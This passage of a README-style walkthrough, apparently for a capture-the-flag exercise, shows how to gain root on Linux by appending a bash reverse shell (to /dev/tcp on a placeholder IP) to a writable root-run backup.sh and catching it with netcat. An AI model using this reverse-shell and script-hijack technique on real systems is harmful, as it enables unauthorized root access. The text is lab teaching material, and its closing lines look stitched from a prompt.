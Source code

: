 ### 5. Exploit the Script
If the script has a vulnerability, such as improper handling of environment variables or file paths, you can exploit it to escalate privileges.

#### Example Exploit (if the script uses a writable path):
If `backup.sh` calls a binary or script from a writable directory, you can replace it with a malicious script.

1. **Create a Malicious Script**:
   ```bash
   echo '/bin/bash -i >& /dev/tcp/your-ip/your-port 0>&1' > /tmp/malicious.sh
   chmod +x /tmp/malicious.sh
   ```

2. **Modify `backup.sh`** (if writable):
   ```bash
   echo '/tmp/malicious.sh' >> /path/to/backup.sh
   ```

3. **Set Up a Listener**:
   On your local machine, set up a listener to catch the reverse shell:
   ```bash
   nc -lvnp your-port
   ```

4. **Wait for Execution**:
   Wait for the `backup.sh` script to execute at its next interval. When it does, you should receive a reverse shell with root privileges.

### 6. Confirm Root Access
Once the exploit is successful, confirm root access:
```bash
whoami
```
You should see:
```
root
```

## Conclusion
By following these steps, you can use `pspy` to monitor background processes and exploit a vulnerable script running as root to escalate your privileges. This guide provides a clear path from monitoring processes to achieving root access.

## Additional Resources
- [pspy GitHub Repository](https://github.com/DominicBreuker/pspy)
- [Linux Privilege Escalation](https://book.hacktricks.xyz/linux-unix/privilege-escalation)
- [Netcat Documentation](https://nc110.sourceforge.io/)

---

This README file provides a comprehensive guide on using `pspy` for privilege escalation by exploiting a `backup.sh` script running as root.
To create a README file detailing the process of exploiting the `backup.sh` script with a reverse shell, setting up a listener with Netcat, and obtaining root access to discover the second Horcrux, follow this structure:

---